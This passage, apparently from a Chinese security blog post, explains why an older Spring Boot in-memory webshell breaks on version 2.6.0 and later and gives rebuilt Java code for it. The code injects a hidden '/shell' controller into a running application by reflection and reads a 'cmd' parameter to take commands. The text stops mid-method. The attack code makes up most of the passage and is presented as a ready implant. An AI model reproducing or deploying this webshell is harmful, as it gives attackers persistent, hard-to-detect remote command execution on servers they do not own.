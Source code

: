 但发现当Springboot 的版本>=2.6.0 时，会报500错误，错误提示
```
java.lang.IllegalArgumentException: Expected lookupPath in request attribute "org.springframework.web.util.UrlPathHelper.PATH"
```
![](https://img-blog.csdnimg.cn/efd4106f74bc4addba7c2395c527ab35.png)

原因在于从 Springboot 2.6.0 版本开始，官方修改了url路径的默认匹配策略，我们需要重新构造内存马了

#### 内存马实现(Springboot >=  2.6.0)

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class InjectToController2 extends AbstractTranslet {
    public InjectToController2() {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
            configField.setAccessible(true);
            RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
            Method method2 = InjectToController2.class.getMethod("test");
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            RequestMappingInfo info = RequestMappingInfo.paths("/shell").options(config).build();
            InjectToController2 springControllerMemShell = new InjectToController2("aaa");
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);
        } catch (Exception e) {

        }
    }

    public InjectToController2(String aaa) {
    }

    public void test() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        try {
            String arg0 = request.getParameter("cmd");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
```